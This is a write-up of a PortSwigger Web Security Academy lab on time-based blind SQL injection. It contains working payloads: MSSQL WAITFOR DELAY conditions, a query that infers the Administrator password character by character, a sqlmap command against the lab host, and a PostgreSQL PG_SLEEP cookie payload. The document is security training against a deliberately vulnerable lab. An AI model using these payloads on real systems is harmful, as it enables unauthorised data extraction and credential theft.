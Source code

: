 # Blind SQL injection with time delays

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

## Definition
In the preceding example, suppose that the application now catches database errors and handles them gracefully. Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:
```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
```
```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

The first of these inputs will not trigger a delay, because the condition 1=2 is false. The second input will trigger a delay of 10 seconds, because the condition 1=1 is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

## Notes
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

**SQL Injection Confirmation and Vendor Discovery**

In view of confirming the vulnerability truly exist, was used the `sqlmap` tool that is capable of confirming the hypothesis and also which DBMS is used at the backend. The result was the following:

```bash
python3 sqlmap.py -u "https://0a5600d604a5baaec0ed4c4b00cc00f8.web-security-academy.net/product?productId=20" --level=2 --cookie="TrackingId=XJo3BoM6Y8PghVAY"
```

![Vulnerability confirmed and vendor discovered](images/image01.png)  

![Vulnerability confirmed and vendor discovered](images/image02.png)  

**Exploitation**

To exploit the SQL injection vulnerability and solve the lab, the payload below was crafted and sent to the application alongside the `TrackingId` cookie:

```http
Cookie: TrackingId=Jm3SkiqSvxIY6iXg'+AND+1828%3d(SELECT+1828+FROM+PG_SLEEP(10))+AND+'A'%3d'A;
```

![SQL Injection Payload](images/image03.png)  

![lab Solved](images/image04.png)  

## Key Words
> blind sql injection, time delay, sqlmap